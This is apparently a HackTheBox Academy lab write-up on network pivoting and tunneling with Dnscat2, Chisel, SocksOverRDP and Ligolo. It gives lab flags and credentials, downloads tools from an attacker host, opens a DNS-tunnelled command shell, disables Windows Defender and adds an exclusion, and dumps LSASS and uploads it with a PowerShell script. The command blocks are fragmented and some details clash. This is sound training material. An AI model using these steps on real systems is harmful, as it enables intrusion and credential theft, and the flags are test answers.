
*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### DNS Tunneling with Dnscat2

> **Lab Question (Page 18)**: Using the concepts taught in this section, connect to the target and establish a DNS Tunnel that provides a shell session. Submit the contents of C:\Users\htb-student\Documents\flag.txt as the answer.
>
> **Flag / Answer**: `AC@tinth3Tunnel`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets RDP login to the target windows machine using the
provided credentials 'htb-student:HTB_@cademy_stdnt!'

Then, we will download Dnscat2 to the pwnbox and set the server, and
dnscat2-powershell client, to the target machine
On the pwnbox, when downloaded/git clones the repository, run the following
commands:
```bash
cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

then start the server with the command:
```bash
sudo ruby dnscat2.rb --dns host=<attacker-
```
IP>,port=53,domain=inlanefreight.local --no-cache


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


### Lets download the repository, and cd our way into it

#### Technical Methodology & Exploit Execution:

```bash
iwr -uri http://<attacker-IP>:8080/dnscat2.ps1 -outfile
```
dnscat2.ps1
to get the dnscat2.ps1 to the windows target machine, when that's done: lets
activate it:
```bash
Import-Module .\dnscat2.ps1
```

Start-Dnscat2 -DNSserver 10.10.14.80 -Domain
inlanefreight.local -PreSharedSecret <secret> -Exec cmd
Where <secret> is the same secret value given in the server initialization (it
changes for every server initialization):


And we got session on the server:


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


*_Figure 19.3 — Lab execution and output verification (Page 19)_*


### Let select the session

Let select the session:
window -i 1

when the session is stablished – we can type for the flag:
type C:\Users\htb-student\Documents\flag.txt


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### SOCKS5 Tunneling with Chisel

> **Lab Question (Page 21)**: Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\Users\victor\Documents\flag.txt as the answer.
>
> **Flag / Answer**: `Th3$eTunne1$@rent8oring!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets ssh login to the target linux machine with the provided
credentials: 'ubuntu:HTB_@cademy_stdnt!'.

Now, lets download 'Chisel' v1.7.4' pivoting tool to the pwnbox.
We save the file as 'chisel.gz', and decompress it using the command:
gunzip chisel.gz


and we get an ELF executable 'chisel', lets get it to the target machine via ssh:
```bash
scp chisel ubuntu@<target-IP>:~/
```


Now the chisel file is on the target machine, lets grant it owner execution
permissions, and run it as server:
```bash
chmod u+x chisel
```
./chisel server -v -p 1234 --socks5


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


### client on the pwnbox

Now as the chisel server is running on the target machine, lets initate the chisel
client on the pwnbox:
```bash
chmod u+x chisel
```
./chisel client -v <target-IP>:1234 socks


It started a tunnel through port 1080. Lets configure the
'/etc/proxychains.conf' accordingly:
```bash
sudo nano /etc/proxychains.conf
```
and inside the file comment the current configuration and add:
'socks5 127.0.0.1 1080'

Save with 'ctrl + X' the proxychains confugration file.


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


### within the internal network

Now lets use proxychains to RDP login to the windows machine '172.16.5.19'
within the internal network:
```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
/dynamic-resolution
* enter yes for the certificate approval. *

However we seek the flag in the Documents folder, not the Desktop:


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


### ICMP Tunneling with SOCKS

> **Lab Question (Page 24)**: Using the concepts taught thus far, connect to the target and establish an ICMP tunnel. Pivot to the DC (172.16.5.19, victor:pass@123) and submit the contents of C:\Users\victor\Downloads\flag.txt as the answer.
>
> **Flag / Answer**: `N3Tw0rkTunnelV1sion!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

I skipped this question as the 'ptunnel-ng' compilation on the pwnbox
was not compatible with the target machine after transfer (ELF compiled in
pwnbox and transferred to target machine). maybe compiling it on another VM
with the correct kernel/distribution works, but its too much effort for too little
gain… (and unlike chisel, downloading here older version won't work).


### RDP and SOCKS Tunneling with SocksOverRDP

> **Lab Question (Page 25)**: Use the concepts taught in this section to pivot to the Windows server at 172.16.6.155 (jason:WellConnected123!). Submit the contents of Flag.txt on Jason's Desktop.
>
> **Flag / Answer**: `H0pping@roundwithRDP!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Before we start with the question – lets stablish our network
environment:
We have the pwnbox, which can connect to the target machine 'WIN10PIV'
(lets call it target machine 1), which can connect to a network '172.16.5.x' –
lets refer to it as internal network 1 (its IP there is '172.16.5.150').
In internal network 1 there is a second target machine – '172.16.5.19' -  'DC01',
which is member of both target network 1, and another internal network –
'172.16.6.x', on IP '172.16.6.19'. we will refer the '172.16.6.x' network 'internal
network 2'. And we will refer the 'DC01' machine 'target machine 2'.
In the internal network 2 there is a third target machine, whose IP is
'172.16.6.155', we will refer that machine as target machine 3

First, lets RDP login to the target windows machine 1 using the provided
credentials 'htb-student:HTB_@cademy_stdnt!'.
Now, lets download the tool 'Proxifier Portable Binary', and get it to the target
machine 1:
Lets initate python server on the pwnbox:
```bash
python -m http.server 8080
```

and download the file on the htb-student/Documents on the target machine 1:
```bash
iwr -uri http://<attacker-IP>:8080/SocksOverRDP-x64.zip -
```
outfile SocksOverRDP-x64.zip

Now, before we proceed, we need to make some modifications to the target
machine security settings.


### → scroll down it in

Go to the side panel and search for 'security' – then select 'Windows Security':


→ In it, go to 'Virus & threat protection'

→ scroll down it in:

To 'Manage settings'.
→ in it, disable the 'Real-time protection'


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


*_Figure 26.3 — Lab execution and output verification (Page 26)_*


### → and further down scroll down to Exclusions

→ and further down scroll down to Exclusions:

Select 'Add or remove exclusions'
→ 'Add an exclusion':

→ folder

And we select our username folder:
'C:\Users\htb-student':


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


*_Figure 27.3 — Lab execution and output verification (Page 27)_*


*_Figure 27.4 — Lab execution and output verification (Page 27)_*


### And open the extracted folder

#### Technical Methodology & Exploit Execution:

regsvr32.exe SocksOverRDP-Plugin.dll


We get success message.

Next, lets open the Remote Desktop Connection tool ('mstsc.exe'):


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


*_Figure 28.3 — Lab execution and output verification (Page 28)_*


*_Figure 28.4 — Lab execution and output verification (Page 28)_*


### We will get this prompt

And enter the second target IP (from the section's guide) – '172.16.6.155':

We will get this prompt:

We will be prompted for credentials, we will give the provided credentials
'victor:pass@123', and select 'yes' for the warning:


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


*_Figure 29.3 — Lab execution and output verification (Page 29)_*


*_Figure 29.4 — Lab execution and output verification (Page 29)_*


### And here we are (target machine 2)

And here we are (target machine 2):

First, that's not our flag.. (this flag is from earlier question..)
Anyway, in the SocksOverRDP folder there was an executable as well, we need
to transfer it to the second target machine.

For that we will download to the pwnbox 'server.exe' (exe version of the
'python -m http.server' command)
(it will download a zip, unzip it, enter the extracted directory – 'server.exe' is in
it. (I also copied the file to '~' (user's home directory) for convience)).

We need to get 'server.exe' from the pwnbox to the first target machine:
```bash
python -m http.server 8080
```

```bash
iwr -uri http://<attacker-IP>:8080/server.exe -outfile
```
server.exe

Observe that the path is the 'SocksOverRDP-x64' path, as we will need the
'server.exe' and 'SocksOverRDP-Server.exe' be in the same folder:


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


### Now its time to run the server.exe

First lets check the first target machine IP on the internal network:

That would be '172.16.5.150'.

Now its time to run the server.exe:
.\server.exe
It will run on default port 8000

And lets go the second target machine to download the 'SocksOverRDP-
Server.exe'.
Lets open powershell on victor's Documents folder, and download the
executable:
```bash
iwr -uri http://172.16.5.150:8000/SocksOverRDP-Server.exe -
```
outfile SocksOverRDP-Server.exe

*do notice the port here is 800, the default port for server.exe. *
When downloaded – we run the SocksOverRDP-Server.exe:
.\SocksOverRDP-Server.exe


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*_Figure 31.3 — Lab execution and output verification (Page 31)_*


*_Figure 31.4 — Lab execution and output verification (Page 31)_*


*_Figure 31.5 — Lab execution and output verification (Page 31)_*


### forwarding is in place

Back to target machine one (the original target machine) – lets confirm port
forwarding is in place:
netstat -antb | findstr 1080


Good, there is port forwarding on port 1080. But we do not yet have direct
access from target machine 1 to the second internal network.
For that we will use a second tool – 'Proxifier', we will download the windows
version:

→ and select the zip file to download

On the pwnbox, get transfer it to target machine 1:
```bash
python -m http.server 8080
```
and download the file to Documents directory (oh htb-student)
```bash
iwr -uri http://<attacker-IP>:8080/ProxifierPE.zip -outfile
```
ProxifierPE.zip


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


*_Figure 32.3 — Lab execution and output verification (Page 32)_*


### directory

when done, we extract the zip and open powershell within the extracted
directory:
in it we execute the tool:
.\Proxifier.exe

It will open a trial box:

Select 'Continue evaluation'.
And the application is opened:

We go for 'Profile' → 'Proxy Servers…':


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


****
From this point forward I tried to establish the rule, and pivot RDP to the target
machine 3 but it didn't work, so I got frustrated and simply RDP's to target
machine 3 from target machine 2 (where this is no pivoting) to obtain the flag…
Either way I recommend to use 'Ligolo-ng' to establish pivot or double pivot
(the guide to do it is in 'Attacking Enterprise Networks' writeup, page 100).
```bash
Ligolo is far better because not only it allows direct communication to the
```
target machine 3 from target machine 1, but from even the pwnbox (which is
another layer).
****


### Capstone: Skills Assessment

> **Lab Question (Page 35)**: Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.
>
> **Flag / Answer**: `webadmin`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we are provided with a target machine but with no provided way to
access it. We are only told that there is webshell in the target machine. Lets
start nmap to see what OS it is and what services it runs:
```bash
nmap <target-IP> -sV
```


As we are told that there is a webshell in the target machine, that must be in
the http port (80) – lets access it with the browser:

Lets 'ls' the home directory to see what user we have on the system:


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


### 'webadmin' to confirm that we have credentials to it

> **Lab Question (Page 36)**: Submit the credentials found in the user's home directory. (Format: user:password)
>
> **Flag / Answer**: `mlefay:Plain Human work!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets open the second file found in the previous question:
```bash
cat /home/webadmin/for-admin-eyes-only
```


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


> **Lab Question (Page 37)**: Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.
>
> **Flag / Answer**: `172.16.5.35`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets start by using the found 'id_rsa' to ssh login to 'webmaster'.
For convenience, it can be downloaded here.
Anyway lets paste the file's content within a file called 'id_rsa' in the pwnbox,
and set its permissions mode to 600 (only file's owner can read):
```bash
echo '<file's content>' > id_rsa
chmod 600 id_rsa
```

then we can use the private key to ssh connect to the private machine:
```bash
ssh -i id_rsa webmaster@<target-IP>
```


We are in.
First lets confirm our target network address
route -n


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


*_Figure 37.3 — Lab execution and output verification (Page 37)_*


### ens192 network, we can narrow it down

> **Lab Question (Page 38)**: Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.
>
> **Flag / Answer**: `S1ngl3-Piv07-3@sy-Day`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we need to investigate the '172.16.5.35' machine that was found (we
will refer to it as target machine 2), as the target machine 1 does not has
'nmap', we will have to establish pivot so we can access the target machine 2
directly from the pwnbox. We will use a tool not covered on the module –
'Ligolo'.
The full details of how to install and set Ligolo for pivoting can be found in
'Attacking Enterprise Networks' writeup, pages 51-54. So it will not be repeated
here.
From this point forward we assume there is a working pivoting from the
pwnbox to target machine 2.


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


### – lets run nmap scan on it

Once the Ligolo is set and direct connection to the '172.16.5.35' is established
– lets run nmap scan on it:
```bash
nmap 172.16.5.35 -sV
```


There are several running services on the machine, lets try the RDP , with the
credentials found
Running more thorough scan on the service:
```bash
nmap 172.16.5.35 -sV -A -p 3389
```


We can determine the hostname of the machine is 'PIVOT-SRV01', which seems
similar enough to 'server01', so lets RDP to the machine with the credentials
found in the 'for-admin-eyes-only' file – 'mlefay:Plain Human work!'


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


*_Figure 39.2 — Lab execution and output verification (Page 39)_*


### Lets obtain the flag from 'C:\Flag.txt'

```bash
xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!'
```
/dynamic-resolution


We are in!
Lets obtain the flag from 'C:\Flag.txt':


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


### click on it and 'Create dump file'

> **Lab Question (Page 41)**: In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?
>
> **Flag / Answer**: `vfrank`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will get the LSASS dump from the target machine 2 ('172.16.5.35')
(for more details – refer to the 'Password Attacks writeup -  'Attacking LSASS'
section, page 18).
We open task manager, and look for 'Local Security Authority Process', right
click on it and 'Create dump file':

And we get this prompt:

Lets go to the directory:


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


### call it 'server.py', and get it to target machine 1

Here is the file. We need to get it to the pwnbox for analysis.
For that we will get a crude python server I made that can handle uploads, lets
call it 'server.py', and get it to target machine 1:
```bash
scp -i id_rsa server.py webadmin@<target-IP>:~/
```

and lets run it on the target machine 1 (which has python3 already installed):
```bash
python3 server.py
```
and the server will run on port 8080


While the server is running, open powershell on target machine 2, in the folder
where 'lsass.DMP' is located, and run the following powershell script:
$filePath = ".\lsass.DMP"
$targetUrl = "http://172.16.5.15:8080/upload"
# Create a WebClient object
$webClient = New-Object System.Net.WebClient
$webClient.Headers.Add("filename",
[System.IO.Path]::GetFileName($filePath))
$WebClient.Headers.Add("Authorization", "Basic " + $AuthStr)
$WebClient.Headers.Add("X-Atlassian-Token", "nocheck")
# Upload the file
$WebClient.UploadFile($targetUrl, (Get-Location).Path + "\"
+ $filePath)
Write-Output "File uploaded successfully"
Uploading the file to target machine 1, with the IP of the internal network
('172.16.5.15').
Upon uploading, we will get the 200 POST code on the server:


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


### And file uploaded sucsessfully on the client

And file uploaded sucsessfully on the client:

* *

